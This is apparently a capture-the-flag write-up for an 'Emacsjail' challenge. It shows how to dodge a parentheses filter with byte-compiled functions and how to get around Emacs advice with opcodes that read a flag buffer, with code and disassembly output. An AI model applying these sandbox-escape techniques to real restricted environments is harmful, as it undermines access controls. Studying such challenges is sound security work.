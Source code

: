 #+TITLE: Emacsjail
#+DESCRIPTION: Mom, can we have SBCL? No, we have SBCL at home. SBCL at home:
#+AUTHOR: George

* Solve
The first insight is that the restriction against parentheses can be bypassed by passing in a =byte-code-function= instead of an =interpreted-function= (and there aren't any function =symbol=​s which trivially solve the challenge).
#+begin_src elisp :results scalar
(defun check (input)
  (not (string-match-p ".*(.*).*" input)))

(format "%s, %s"
        (check (prin1-to-string (lambda nil)))
        (check (prin1-to-string (byte-compile (lambda nil)))))
#+end_src

#+RESULTS:
: "nil, t"

The second insight is that Emacs advice does not apply to functions which have dedicated opcodes in the Emacs Lisp bytecode interpreter.[fn::https://nullprogram.com/blog/2013/01/22/]
There are two such functions, ~set-buffer~ and ~buffer-substring~, that allow us to extricate the flag.

#+begin_src elisp
(defun disass (form)
  (with-temp-buffer
    (disassemble (byte-compile form) (current-buffer))
    (buffer-string)))

(disass (lambda () (set-buffer "*flag.txt*") (buffer-substring (point-min) (point-max))))
#+end_src

#+RESULTS:
: byte code:
:   args: nil
: 0       constant  "*flag.txt*"
: 1       set-buffer 
: 2       discard   
: 3       point-min 
: 4       point-max 
: 5       buffer-substring 
: 6       return    

Note that ~byte-compile~ can behave strangely depending on your Emacs version and you might have to write the bytecode by hand, in which case the [[https://rocky.github.io/elisp-bytecode.pdf][Emacs Lisp Bytecode Reference Manual]] is very useful.

